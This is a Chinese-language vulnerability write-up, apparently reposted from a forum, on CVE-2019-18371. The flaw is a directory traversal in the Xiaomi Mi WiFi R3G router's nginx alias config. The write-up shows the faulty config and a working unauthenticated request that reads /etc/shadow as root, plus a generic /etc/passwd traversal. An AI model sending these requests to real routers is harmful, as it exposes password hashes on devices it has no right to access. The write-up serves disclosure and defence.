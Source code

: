 # （CVE-2019-18371） Xiaomi Mi WiFi R3G 任意文件读取漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3407](https://www.zhihuifly.com/t/topic/3407)

# （CVE-2019-18371） Xiaomi Mi WiFi R3G 任意文件读取漏洞

## 一、漏洞简介

Xiaomi Mi WiFi R3G是中国小米科技（Xiaomi）公司的一款3G路由器。 Xiaomi Mi WiFi R3G 2.28.23-stable之前版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Xiaomi Mi WiFi R3G 2.28.23-stable之前版本

## 三、复现过程

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
} 
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
} 
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`

![image](img/388d9de7afc9a29b0093c5819a26b9d2.png)
